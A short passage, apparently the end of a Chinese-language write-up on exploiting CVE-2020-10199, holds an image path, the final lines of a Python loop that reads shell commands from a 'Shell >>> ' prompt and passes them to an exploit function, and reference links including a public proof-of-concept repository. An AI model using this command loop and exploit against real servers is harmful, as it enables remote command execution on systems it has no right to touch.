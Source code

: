         cmd = input("Shell >>> ")
        if cmd == "exit" : exit(0)
        exp(cmd)

参考链接
--------

> https://www.cnblogs.com/appear001/p/12844624.html
>
> https://github.com/zhzyker/CVE-2020-10199\_POC-EXP
